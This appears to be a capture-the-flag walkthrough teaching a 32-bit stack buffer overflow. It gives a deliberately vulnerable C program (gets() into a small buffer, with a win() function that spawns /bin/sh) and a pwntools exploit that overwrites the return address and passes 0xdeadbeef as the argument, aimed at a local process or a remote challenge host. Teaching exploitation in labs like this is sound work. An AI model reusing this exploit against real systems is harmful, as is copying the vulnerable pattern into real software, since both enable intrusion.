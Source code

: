 ## Intro to PWN 3

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 32 bit binary.  NX is enabled but PIE is not.  Once again we can put static addresses into our exploit.  We have source code.  Lets view it.

#### main.c
```C
#include <stdlib.h> 
#include <stdio.h> 

void win(unsigned int x){ 
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
} 

void vuln(){
    char buf[24]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 3: Args too?\n"); 
    vuln(); 
    return 0; 
} 
```

Once again we need to jump to the win() function to get a shell.  However we need to set the x argument to "0xdeadbeef".  It's important to note that for i386 executable the arguments are passed in on the stack.  If we have a buffer overflow we can overwrite arguments passed to win. Here is what the stack looks like for the vuln function.

![stack_frame](./screenshots/stack_frame.png)

This time we need to skip 36 bytes and append the address of win() in little endian.  Then we need to place 0xdeadbeef into the first argument.  This will be the next address on the stack.  However, when the win function is called, a new return address will be place on the stack and the stack pointer will move down 4 bytes.  Here is a visual representation of the stack after the buffer is placed and when win() is called.

```
________________buffer overflow_________________        ________________win() function________________
          |------------|                                          |------------|
$esp + 44 | 0xdeadbeef | Argument 1                     $esp + 12 | 0xdeadbeef | Argument 1
$esp + 40 | 0x42424242 | skip 4 bytes                   $esp + 8  |  ret addr  | next address in main
$esp + 36 |    win()   | address of win function        $esp + 4  |    ebp     | frame pointer
$esp + 32 | 0x41414141 | buffer (ebp)                   $esp      |   unused   | first stack variable
               ...                                                |------------|
$esp      | 0x41414141 | buffer
          |------------|
```

Use objdump to get the address of win().

![jump_address](./screenshots/jump_address.png)

Lets write our exploit.

#### exploit.py
```python
from pwn import *
import sys

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 28949)

payload =  b""
payload += b"A" * 36
payload += p32(binary.sym.win)
payload += b"B" * 4
payload += p32(0xdeadbeef)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.

![exploit](./screenshots/exploit.png)

Complete!